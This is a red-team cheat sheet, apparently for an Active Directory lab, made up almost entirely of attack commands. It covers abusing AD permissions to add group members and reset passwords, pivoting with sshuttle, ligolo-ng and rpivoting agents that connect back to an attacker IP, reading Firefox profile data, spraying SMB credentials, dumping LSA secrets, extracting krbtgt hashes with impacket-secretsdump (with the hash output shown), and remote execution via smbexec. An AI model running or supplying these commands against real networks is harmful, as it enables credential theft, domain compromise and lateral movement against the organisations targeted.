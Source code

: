 #AD Exploit Permission Delegation
+ ForceChangePassword: We have the ability to set the user's current password without knowing their current password.
+ AddMembers: We have the ability to add users (including our own account), groups or computers to the target group.
+ GenericAll: We have complete control over the object, including the ability to change the user's password, register an SPN or add an AD object to the target group.
+ GenericWrite: We can update any non-protected parameters of our target object. This could allow us to, for example, update the scriptPath parameter, which would cause a script to execute the next time the user logs on.
+ WriteOwner: We have the ability to update the owner of the target object. We could make ourselves the owner, allowing us to gain additional permissions over the object.
+ WriteDACL: We have the ability to write new ACEs to the target object's DACL. We could, for example, write an ACE that grants our account full control over the target object.
+ AllExtendedRights: We have the ability to perform any action associated with extended AD rights against the target object. This includes, for example, the ability to force change a user's password.

	PS C:\>Add-ADGroupMember "IT Support" -Members "Your.AD.Account.Username"
	PS C:\>Get-ADGroupMember -Identity "IT Support" -> you will see your account added to gropu IT Support
	****** ForceChangePassword
	PS C:\>Get-ADGroupMember -Identity "Tier 2 Admins" -> find user interest to resent their password
 	
	PS C:\>$Password = ConvertTo-SecureString "New.Password.For.User" -AsPlainText -Force 
	PS C:\>Set-ADAccountPassword -Identity "AD.Account.Username.Of.Target" -Reset -NewPassword $Password

	***** Note: If you get an Access Denied error, your permissions have not yet propagated through the domain. This can take up to 10 minutes. The best approach is to terminate your SSH or RDP session, take a quick break, and then reauthenticate and try again. You could also run gpupdate /force and then disconnect and reconnect, which in certain cases will cause the synchronisation to happen faster.

  	HTTP - Used for web applications to allow pass-through authentication using AD credentials.
CIFS - Common Internet File System is used for file sharing that allows delegation of users to shares.
LDAP - Used to delegate to the LDAP service for actions such as resetting a user's password.
HOST - Allows delegation of account for all activities on the host.
MSSQL - Allows delegation of user accounts to the SQL service for pass-through authentication to databases.
    
# Pivoting

Sshuttle Command:

	sshuttle -r user@remote_host:2222 192.168.98.0/24 
	sshuttle -r user@remote_host 192.168.98.0/24 

	192.168.98.0/24 -> get from check ifconfig when see 2 adapter
	
	after shuttle
	
	nmap -sC -sV 192.168.98.5 -> IP for Pivoting

ligolo-ng

	#Attacker Machine, download proxy & agent :
	
	#Proxy
	wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_proxy_0.4.3_Linux_64bit.tar.gz
	tar -xvzf ligolo-ng_proxy_0.4.3_Linux_64bit.tar.gz

	#Agent
	wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_agent_0.4.3_Linux_64bit.tar.gz
	tar -xvzf ligolo-ng_agent_0.4.3_Linux_64bit.tar.gz

	Setup the ligolo-ng proxy in the attacker machine & ligolo-ng in the victim machine.

	# Attacker Machine
	sudo ip tuntap add user kali mode tun ligolo

	#Delete the 192.168.98.0/24 IP Range from the tun0 interface :
	sudo ip route del 192.168.98.0/24 dev tun0
	#Up the ligolo interface :
	sudo ip link set ligolo up
	#Add 192.168.98.0/24 IP range to the ligolo interface :
	sudo ip route add 192.168.98.0/24 dev ligolo

	Confirm the route on your attacker machine.

	ip route

	Start the proxy on the attacker server
	./proxy -selfcert -laddr 0.0.0.0:443

	Transfer the agent on the victim machine & start the connection
	#Replace this with your attacker IP address.
	./agent -connect 10.10.200.X:443 -ignore-cert

	session
	list_tunnels
	start

SSH Pivoting

	ssh -D 8088 privilege@192.168.80.10
	netstat -ano | grep 8088

rpivoting

	+ attacker set up
 		-check python2 availble 
		python2 server.py --server-port 9980 --server-ip 0.0.0.0 --proxy-ip 127.0.0.1 --proxy-port 9050
	 	ifconfig -> copy this ip to victim
   
  	+ victim set up
  	
		copy rpivoting to victim client 
		python2 client.py --server-ip 10.10.200.124 --server-port 9980


# Firefox Find Information

	ls -la .mozilla/
	cd .mozilla/firefox/
	# The filename may vary on your infrastructure, identify & use accordingly
	cd b2rri1qd.default-release
	
	sqlite3 places.sqlite
	.tables
	select * from moz_bookmarks;

# SMB

SMB Bruteforce IP List with one username and password

	for i in 2 15 30 120; do crackmapexec smb "192.168.98.$i" -u "john" -p "User1@#$%6" ; done

SMB check information 

	crackmapexec smb 192.168.98.2

	for i in 2 15 30 120; do crackmapexec smb "192.168.98.$i" sleep 10; done

SMB LSA 

	crackmapexec smb 192.168.98.30 -u john -p User1@#$%6 --lsa

	Output: 
		SMB         192.168.98.30   445    MGMT             			corpmngr@child.warfare.corp:User4&*&*

# Impacket tools

**Install Impacket In kali**

	sudo apt install python3-impacket

**Dumping user Krbtgt**

	impacket-secretsdump -debug child/corpmngr:"User4&*&*"@cdc.child.warfare.corp -just-dc-user 'child\krbtgt'

	Result:
	[+] Decrypting hash for user: CN=krbtgt,CN=Users,DC=child,DC=warfare,DC=corp
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:e57dd34c1871b7a23fb17a77dec9b900:::
	krbtgt:aes256-cts-hmac-sha1-96:ad8c273289e4c511b4363c43c08f9a5aff06f8fe002c10ab1031da11152611b2
	krbtgt:aes128-cts-hmac-sha1-96:806d6ea798a9626d3ad00516dd6968b5
	krbtgt:des-cbc-md5:ba0b49b6b6455885

# Remote login with exec
	impacket-smbexec corpmngr:"User4&*&*"@192.168.98.120

# RedTeam-CheckSheet
